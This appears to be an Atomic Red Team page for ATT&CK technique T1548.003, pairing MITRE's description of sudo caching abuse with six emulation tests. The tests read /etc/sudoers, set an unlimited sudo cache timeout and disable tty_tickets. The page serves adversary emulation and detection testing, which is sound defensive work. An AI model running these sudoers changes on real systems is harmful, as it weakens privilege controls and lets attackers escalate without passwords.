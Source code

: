 # T1548.003 - Abuse Elevation Control Mechanism: Sudo and Sudo Caching
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1548/003)
<blockquote>Adversaries may perform sudo caching and/or use the sudoers file to elevate privileges. Adversaries may do this to execute commands as other users or spawn processes with higher privileges.

Within Linux and MacOS systems, sudo (sometimes referred to as "superuser do") allows users to perform commands from terminals with elevated privileges and to control who can perform these commands on the system. The <code>sudo</code> command "allows a system administrator to delegate authority to give certain users (or groups of users) the ability to run some (or all) commands as root or another user while providing an audit trail of the commands and their arguments."(Citation: sudo man page 2018) Since sudo was made for the system administrator, it has some useful configuration features such as a <code>timestamp_timeout</code>, which is the amount of time in minutes between instances of <code>sudo</code> before it will re-prompt for a password. This is because <code>sudo</code> has the ability to cache credentials for a period of time. Sudo creates (or touches) a file at <code>/var/db/sudo</code> with a timestamp of when sudo was last run to determine this timeout. Additionally, there is a <code>tty_tickets</code> variable that treats each new tty (terminal session) in isolation. This means that, for example, the sudo timeout of one tty will not affect another tty (you will have to type the password again).

The sudoers file, <code>/etc/sudoers</code>, describes which users can run which commands and from which terminals. This also describes which commands users can run as other users or groups. This provides the principle of least privilege such that users are running in their lowest possible permissions for most of the time and only elevate to other users or permissions as needed, typically by prompting for a password. However, the sudoers file can also specify when to not prompt users for passwords with a line like <code>user1 ALL=(ALL) NOPASSWD: ALL</code>.(Citation: OSX.Dok Malware) Elevated privileges are required to edit this file though.

Adversaries can also abuse poor configurations of these mechanisms to escalate privileges without needing the user's password. For example, <code>/var/db/sudo</code>'s timestamp can be monitored to see if it falls within the <code>timestamp_timeout</code> range. If it does, then malware can execute sudo commands without needing to supply the user's password. Additional, if <code>tty_tickets</code> is disabled, adversaries can do this from any tty for that user.

In the wild, malware has disabled <code>tty_tickets</code> to potentially make scripting easier by issuing <code>echo \'Defaults !tty_tickets\' >> /etc/sudoers</code>.(Citation: cybereason osx proton) In order for this change to be reflected, the malware also issued <code>killall Terminal</code>. As of macOS Sierra, the sudoers file has <code>tty_tickets</code> enabled by default.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Sudo usage](#atomic-test-1---sudo-usage)

- [Atomic Test #2 - Sudo usage (freebsd)](#atomic-test-2---sudo-usage-freebsd)

- [Atomic Test #3 - Unlimited sudo cache timeout](#atomic-test-3---unlimited-sudo-cache-timeout)

- [Atomic Test #4 - Unlimited sudo cache timeout (freebsd)](#atomic-test-4---unlimited-sudo-cache-timeout-freebsd)

- [Atomic Test #5 - Disable tty_tickets for sudo caching](#atomic-test-5---disable-tty_tickets-for-sudo-caching)

- [Atomic Test #6 - Disable tty_tickets for sudo caching (freebsd)](#atomic-test-6---disable-tty_tickets-for-sudo-caching-freebsd)


<br/>

## Atomic Test #1 - Sudo usage
Common Sudo enumeration methods.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 150c3a08-ee6e-48a6-aeaf-3659d24ceb4e






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo -l      
sudo cat /etc/sudoers
sudo vim /etc/sudoers
```






<br/>
<br/>

## Atomic Test #2 - Sudo usage (freebsd)
Common Sudo enumeration methods.

**Supported Platforms:** Linux


**auto_generated_guid:** 2bf9a018-4664-438a-b435-cc6f8c6f71b1






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo -l      
sudo cat /usr/local/etc/sudoers
sudo ee /usr/local/etc/sudoers
```




#### Dependencies:  Run with `sh`!
##### Description: Check if sudo is installed.
##### Check Prereq Commands:
```sh
if [ ! -x "$(command -v sudo)" ]; then exit 1; else exit 0; fi;
```
##### Get Prereq Commands:
```sh
(which pkg && pkg install -y sudo)
```




<br/>
<br/>

## Atomic Test #3 - Unlimited sudo cache timeout
Sets sudo caching timestamp_timeout to a value for unlimited. This is dangerous to modify without using 'visudo', do not do this on a production system.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** a7b17659-dd5e-46f7-b7d1-e6792c91d0bc






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sed -i 's/env_reset.*$/env_reset,timestamp_timeout=-1/' /etc/sudoers
sudo visudo -c -f /etc/sudoers
```






<br/>
<br/>

## Atomic Test #4 - Unlimited sudo cache timeout (freebsd)
Sets sudo caching timestamp_timeout to a value for unlimited. This is dangerous to modify without using 'visudo', do not do this on a production system.

**Supported Platforms:** Linux


**auto_generated_guid:** a83ad6e8-6f24-4d7f-8f44-75f8ab742991






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sed -i 's/env_reset.*$/env_reset,timestamp_timeout=-1/' /usr/local/etc/sudoers
sudo visudo -c -f /usr/local/etc/sudoers
```




#### Dependencies:  Run with `sh`!
##### Description: Check if sudo is installed.
##### Check Prereq Commands:
```sh
if [ ! -x "$(command -v sudo)" ]; then exit 1; else exit 0; fi;
```
##### Get Prereq Commands:
```sh
(which pkg && pkg install -y sudo)
```




<br/>
<br/>

## Atomic Test #5 - Disable tty_tickets for sudo caching
Sets sudo caching tty_tickets value to disabled. This is dangerous to modify without using 'visudo', do not do this on a production system.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 91a60b03-fb75-4d24-a42e-2eb8956e8de1






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sh -c "echo Defaults "'!'"tty_tickets >> /etc/sudoers"
sudo visudo -c -f /etc/sudoers
```






<br/>
<br/>

## Atomic Test #6 - Disable tty_tickets for sudo caching (freebsd)
Sets sudo caching tty_tickets value to disabled. This is dangerous to modify without using 'visudo', do not do this on a production system.

**Supported Platforms:** Linux


**auto_generated_guid:** 4df6a0fe-2bdd-4be8-8618-a6a19654a57a






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo sh -c "echo Defaults "'!'"tty_tickets >> /usr/local/etc/sudoers"
sudo visudo -c -f /usr/local/etc/sudoers
```




#### Dependencies:  Run with `sh`!
##### Description: Check if sudo is installed.
##### Check Prereq Commands:
```sh
if [ ! -x "$(command -v sudo)" ]; then exit 1; else exit 0; fi;
```
##### Get Prereq Commands:
```sh
(which pkg && pkg install -y sudo)
```




<br/>
